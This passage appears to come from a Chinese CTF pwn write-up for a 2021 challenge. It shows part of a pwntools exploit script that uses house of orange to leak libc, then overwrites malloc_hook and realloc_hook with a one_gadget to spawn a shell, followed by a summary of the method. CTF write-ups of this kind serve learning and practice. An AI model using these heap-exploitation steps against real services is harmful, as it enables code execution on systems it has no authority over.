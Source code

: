 ```python
    sh.sendlineafter('? ', content)
    sh.sendline(content)

def show():
    choice(3)

def pwn(sh, elf, libc):
    context.log_level = "debug"
    heap_base = add(0x100, 'a' * 0x100) - 0x10
    log.success("heap_base:\t" + hex(heap_base))
    #get_gdb(sh)
    edit(heap_base + 0x110, 'b' * 8 + p64(0xef1))
    for i in range(0xd):      
        add(0x100, 'a' * 0x100)
    add(0x28, 'a' * 0x28)
    add(0xd8, 'a' * 0xd8)
    add(0xc8, 'a' * 8)
    show()
    
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3c4b78)
    one = libc_base + 0x4527a#0x45226 0x4527a 0xf0364 0xf1207
    #get_gdb(sh)
    edit(libc_base + 0x3c4b10 -8 , p64(one) + p64(libc_base + 0x84710+13))  #edit realloc_hook->one & malloc_hook -> realloc_hook+offest
    # gdb.attach(sh, "b *" + hex(one))
    get_gdb(sh)
    add(0x18, 'a' * 0x18)
    sh.interactive()

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag{.+}', flag).group())
```
[exp链接](https://github.com/1094093288/IMG/blob/master/Pwn/PwnWriteup/xiangyunbei2021/exp.py)
# 总结
这道题目通过一个read和scanf实现了任意地址写的漏洞，没有free功能，通过house of orange来free掉top chunk，从而泄露libc，覆盖malloc_hook为onegadget获取shell，不幸的是所有的onegadget都成功不了，那就用realloc_hook来调整栈帧的rsp指向，通过malloc_hook->__GI___libc_realloc->realloc_hook->onegadget的调用链得到可以成功getshell的条件，成功获取shell。经过这道题我体会到了onegadget失效后的解决方法以及house of orange的练习，还需继续学习啊^-^
